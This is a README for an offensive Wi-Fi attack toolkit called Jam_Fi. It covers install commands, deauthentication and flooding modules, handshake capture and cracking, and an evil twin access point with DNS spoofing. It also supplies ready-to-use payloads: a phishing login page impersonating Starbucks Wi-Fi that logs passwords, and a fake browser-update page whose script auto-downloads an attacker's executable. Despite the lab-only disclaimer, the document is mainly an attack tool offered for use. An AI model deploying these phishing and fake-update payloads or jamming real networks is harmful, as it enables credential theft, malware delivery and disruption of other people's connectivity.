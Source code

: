 # Jam_Fi – Wi-Fi Chaos Tool  
by [@ekomsSavior]

---

![image3](https://github.com/user-attachments/assets/960cce0f-7854-4080-b977-b0a02fb34418)


## What is Jam_Fi?

Jam_Fi is an offensive wireless toolkit for Kali Linux, built for red team simulation, network disruption research, and Wi-Fi exploitation education. It includes modules for:

- Deauthentication attacks
- WPA handshake capture and cracking
- Probe request and junk frame flooding
- Evil twin access points with credential logging
- Karma responder beacon spoofing
- MITM injection with fake update pages
- Custom captive portals and payload delivery

All features are designed for local lab use and legal environments only.

---

## Installation

Clone the repository

```bash
git clone https://github.com/ekomsSavior/Jam_Fi.git
cd Jam_Fi
```

Install dependencies

```bash
sudo apt update
sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy
```

Run the tool:

```bash
sudo python3 jam_fi.py
```

To update later:

```bash
cd Jam_Fi
git pull
```

---

## Interface Modes: Monitor vs Managed

Some Jam_Fi modules require **monitor mode**, while others require **managed mode**.

### Monitor Mode (e.g. wlan0mon)

Required for:

- Scan Clients & APs  
- Deauth One Client  
- Deauth All Clients  
- Probe Request Spam  
- Junk Packet Flood  
- Karma Responder  
- Chaos Mode  
- MITM HID Injection

Enable with:

```bash
sudo airmon-ng start wlan0
```

Your monitor interface will usually be called `wlan0mon`.

---

### Managed Mode (e.g. wlan0)

Required for

- Evil AP  
- Captive portal phishing  
- DNS redirection  
- Loot viewing  
- Cracking captured handshakes (optional)

Switch back with

```bash
sudo airmon-ng stop wlan0mon
sudo systemctl start NetworkManager
```

---

## Jam_Fi Modules Overview

Each module appears in the menu

```
1  Scan Clients & APs
2  Deauth One Client
3  Deauth All Clients + Capture
4  Crack Captured Handshakes
5  Probe Request Spam
6  Junk Packet Flood
7  Karma Responder
8  Chaos Mode
9  View Loot
10 Evil AP
11 MITM HID Injection
0  Quit
```

Descriptions

- **Scan Clients & APs** – Uses Scapy to sniff for access points and associated clients.
- **Deauth One Client** – Sends deauth packets to a target MAC on a given AP.
- **Deauth ALL Clients + Capture** – Deauths all known clients while capturing WPA handshakes.
- **Crack Captured Handshakes** – Runs Aircrack-ng or Hashcat against captured `.pcap` files.
- **Probe Request Spam** – Broadcasts fake SSIDs based on common public networks.
- **Junk Packet Flood** – Sends randomized frames to clutter the spectrum.
- **Karma Responder** – Replies to probe requests with fake beacons.
- **Chaos Mode** – Combines probe spam, junk flood, and karma attack.
- **View Loot** – Shows saved handshakes and credentials in `loot/`.
- **Evil AP** – Launches a rogue access point with credential logging and DNS spoofing.
- **MITM HID Injection** – Serve payloads + log keystrokes via HTML/JS.

---

## The `loot/` Folder

JamFi auto-generates files inside `loot/` for phishing and payload delivery:

| File                | Purpose                                                |
|---------------------|--------------------------------------------------------|
| `index.html`        | Default captive portal homepage                        |
| `login.html`        | Fake login form with credential capture                |
| `creds.txt`         | Logged usernames and passwords                         |
| `phish_server.py`   | Simple Python server to collect form submissions       |
| `injection.html`    | Fake update/payload download page for MITM injection   |
| `hostapd.conf`      | Config file for starting the evil AP                   |
| `dnsmasq.conf`      | Handles DHCP and DNS for rogue AP                      |
| `dnsspoof_hosts`    | Redirects all DNS queries to local attacker IP         |
| `hotspot-detect.html` | Triggers captive portal on iOS/macOS                 |

---

## Evil AP Customization

Edit `loot/login.html` to create a custom phishing page:

```html
<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>
```

Captured credentials are logged to `loot/creds.txt`.

---

## MITM Fake Update Injection

You can simulate a fake update prompt with `loot/injection.html`:

```html
<h2>Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>

<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>
```

Add your own payloads to the `loot/` directory and they will auto-download when the button is clicked.

---

## Disclaimer

Jam_Fi is provided for **educational and authorized security research only**.

Do not use this tool against networks or devices you do not own or have permission to test.

Use responsibly, ethically, and within legal boundaries.

---

## About

Jam_Fi is an open-source red team utility developed by [@ekomsSavior](https://github.com/ekomsSavior).

If you find it useful, consider starring the repo and contributing responsibly.


